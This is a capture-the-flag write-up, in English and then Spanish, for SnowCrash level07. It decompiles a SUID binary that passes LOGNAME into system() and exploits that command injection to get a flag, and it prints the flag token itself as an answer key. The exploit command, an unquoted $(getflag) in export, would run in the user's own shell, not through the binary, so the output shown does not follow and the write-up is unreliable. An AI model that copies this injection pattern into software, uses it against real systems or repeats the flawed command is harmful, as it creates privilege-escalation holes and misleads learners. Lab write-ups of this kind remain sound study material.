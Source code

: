 # Flag 07

## Tools Used:

* `ls`, `export`
* Ghidra (or any reverse engineering tool)
* Knowledge of environment variable manipulation

## Process:

Upon logging into the `level07` account, listing the directory reveals a single executable with **SUID** permissions:

```bash
level07@SnowCrash:~$ ls -la
```

Key file:

```
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
```

Decompiling the binary using **Ghidra** shows the following relevant code:

```c
int main(int argc, char **argv, char **envp) {
  gid_t gid = getegid();
  uid_t uid = geteuid();
  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  char *logname = getenv("LOGNAME");
  char *command;
  asprintf(&command, "/bin/echo %s", logname);
  system(command);

  return 0;
}
```

### Key observations:

1. The program retrieves the `LOGNAME` environment variable.
2. It constructs a command by passing `LOGNAME` to `/bin/echo` and runs it using `system()`.
3. Since the binary runs as `flag07`, command injection is possible through `LOGNAME`.

### Exploitation:

We inject a command by setting the `LOGNAME` environment variable to execute `getflag`:

```bash
level07@SnowCrash:~$ export LOGNAME=$(getflag)
level07@SnowCrash:~$ ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

The command executes with elevated privileges and prints the flag.

---

# Flag 07

## Herramientas Utilizadas:

* Comandos `ls`, `export`
* Ghidra (u otra herramienta de ingeniería inversa)
* Conocimientos sobre manipulación de variables de entorno

## Proceso:

Al iniciar sesión como `level07` y listar los archivos disponibles, se encuentra un único ejecutable con permisos **SUID**:

```bash
level07@SnowCrash:~$ ls -la
```

Archivo clave:

```
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
```

Descompilando el binario con **Ghidra** obtenemos el siguiente código relevante:

```c
int main(int argc, char **argv, char **envp) {
  gid_t gid = getegid();
  uid_t uid = geteuid();
  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  char *logname = getenv("LOGNAME");
  char *command;
  asprintf(&command, "/bin/echo %s", logname);
  system(command);

  return 0;
}
```

### Observaciones clave:

1. El programa obtiene la variable de entorno `LOGNAME`.
2. Construye un comando pasando `LOGNAME` a `/bin/echo` y lo ejecuta con `system()`.
3. Al ejecutarse con privilegios de `flag07`, es posible realizar una inyección de comandos.

### Explotación:

Inyectamos un comando configurando la variable de entorno `LOGNAME` para ejecutar `getflag`:

```bash
level07@SnowCrash:~$ export LOGNAME=$(getflag)
level07@SnowCrash:~$ ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

El comando se ejecuta con privilegios elevados y nos muestra la flag.

---

## Scripts Used:

None

## Flag:

```
fiumuikeil55xe9cu4dood66h
```
